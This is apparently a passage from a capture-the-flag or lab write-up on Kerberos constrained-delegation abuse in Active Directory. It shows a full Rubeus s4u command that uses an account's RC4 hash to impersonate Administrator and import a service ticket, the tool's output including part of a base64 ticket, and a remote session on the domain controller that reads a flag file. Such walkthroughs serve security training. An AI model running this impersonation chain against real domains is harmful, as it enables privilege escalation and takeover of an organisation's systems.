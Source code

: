 ![Rubeus](img/Rubeus.png)

> Then, we will use `Rubeus` to get a `ticket` for the `Administrator` account:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: S4U

[*] Using rc4_hmac hash: FCDC65703DD2B0BD789977F1F3EEAECF
[*] Building AS-REQ (w/ preauth) for: 'eagle.local\webservice'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFiDCCBYSgAwIBBaEDAgEWooIEnjCCBJphggSWMIIEkqADAgEFoQ0bC0VBR0xFLkxPQ0FMoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtlYWdsZS5sb2NhbKOCBFgwggRUoAMCARKhAwIBAqKCBEYEggRCI1ghAg72
      moqMS1skuua6aCpknKibZJ6VEsXfyTZgO5IKRDnYHnTJT6hwywSoXpcxbFDDlakB56re10E6f6H9u5Aq
	  ...
	  ...
	  ...
[+] Ticket successfully imported!
```

![Rubeus-2](img/Rubeus-2.png)


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents> dir
[dc1]: PS C:\Users\Administrator\Documents> cat flag.txt